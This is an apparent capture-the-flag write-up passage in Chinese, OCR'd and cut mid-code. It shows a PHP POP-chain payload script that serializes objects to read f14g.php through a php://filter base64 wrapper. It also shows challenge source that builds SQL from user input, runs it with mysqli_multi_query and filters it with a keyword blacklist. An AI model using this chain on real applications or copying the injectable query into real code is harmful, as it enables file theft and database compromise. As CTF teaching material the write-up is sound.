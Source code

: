 ```php
        highlight_file(__FILE__);
        echo '欸嘿,你也喜欢pop子~对吧ww';
    }
}
```

简单 pop 链构造

```php
<?php

class Popuko {
    public $No_893;
}

class Pipimi{
    public $pipi;
}

class Goodsisters{
    public $kiminonawa,$str;
}

$d = new Popuko();
$d->No_893 = 'php://filter/read=convert.base64-encode/resource=f14g.php';

$c = new Pipimi();
$c->p = $d;

$b = new Goodsisters();
$b->str = $c;

$a = new Goodsisters();
$a->kiminonawa = $b;

echo serialize($a);
```

### fun_sql

```php
<?
include "mysql.php";
include "flag.php";

if ( $_GET['uname'] != '' && isset($_GET['uname'])) {

    $uname=$_GET['uname'];

    if(preg_match("/regexp|left|extractvalue|floor|reverse|update|between|flag|=|>|<|and|\||right|substr|replace|char|&|\\\$|0x|sleep|\#/i",$uname)){
        die('hacker');
        
    }
    
    $sql="SELECT * FROM ccctttfff WHERE uname='$uname';";
    echo "$sql<br>";
    

    mysqli_multi_query($db, $sql);
    $result = mysqli_store_result($db);
    $row = mysqli_fetch_row($result);

    echo "<br>";

```